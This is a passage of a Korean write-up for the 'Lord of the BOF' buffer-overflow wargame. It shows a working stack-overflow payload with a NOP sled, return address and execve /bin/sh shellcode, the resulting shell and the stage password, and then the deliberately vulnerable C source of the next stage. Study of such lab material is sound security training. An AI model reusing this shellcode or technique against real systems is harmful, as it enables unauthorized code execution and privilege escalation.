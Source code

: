 환경변수에 쉘코드 등록시켜서 하는 방법을 막으려고 하는 듯하다. 저기 `argv[1][47]`를 체크하는 건 ret를 stack으로 만들어서 하라는 의도인 듯. 그냥 하던대로 하면 됨.

```shell
[goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*40+"\x18\xfa\xff\xbf"+"\x40\xfa\xff\xbf"+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
󾁺ÿ¿1󿿐h//shh/bin⏓ᙰ
                 ̀ 
bash$ id
uid=503(goblin) gid=503(goblin) euid=504(orc) egid=504(orc) groups=503(goblin)
bash$ my-pass
euid = 504
cantata
```





## STAGE 5 : orc -> wolfman

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}
	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
